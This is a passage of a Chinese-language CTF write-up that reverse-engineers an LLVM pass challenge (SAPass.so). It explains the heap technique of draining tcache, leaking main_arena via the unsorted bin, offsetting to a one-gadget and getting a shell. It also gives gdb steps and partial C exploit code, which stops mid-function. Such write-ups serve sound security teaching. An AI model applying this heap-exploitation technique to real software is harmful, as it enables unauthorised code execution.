然后是`takeaway`，它主要判断了一个ptr是否存在然后if判断结束执行了一个free，v45 = v54 = ptr[2];

![image-20220711094855996](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711094855996.png)

`stealkey`是把堆里的内容覆给一个变量

![image-20220711095051692](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711095051692.png)

`fakekey`则是把变量里的值加一个输入数，赋值给ptr，相当于add

![image-20220711095234254](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711095234254.png)

`run`执行ptr的内容

![image-20220711095337890](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711095337890.png)

涉及到堆，需要进行一个调试

根据上边的分析写一个exp框架

```c
#include <stdio.h>
int run(){return 0;};
int save(char *a1,char *a2){return 0;};
int fakekey(int64){return 0;};
int takeaway(char *a1){return 0;};
int B4ckDo0r()
{
    save("aaaa","aaaa");
}
```

```bash
clang -emit-llvm -S exp.c -o exp.ll
gdb opt
b llvm::Pass::preparePassManager
run -load ./SAPass.so -SAPass ./exp.ll > /dev/null
然后在SAPass.so上下断点
```

我们断点打在save赋值完成后，也可以通过这种方式验证我们对程序的分析是否准确

![image-20220711095913400](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711095913400.png)

这道题tcache里还有6个堆，我们再用save申请掉剩下的，再申请就会切割unsortbin，fd和bk就会被写上mainarena，再利用add功能，加上偏移为gadget，然后利用执行功能就能getshell了

![image-20220711100015540](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220711100015540.png)

```c
//GLIBC 2.27-3ubuntu1.5
#include <stdio.h>
int run(){return 0;};
int save(char *a1,char *a2){return 0;};
int fakekey(int64){return 0;};
int takeaway(char *a1){return 0;};
int stealkey(){return 0;};
int B4ckDo0r()
{
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("e4l4","e4l4");
    save("\x00","e4l4");
    stealkey();
```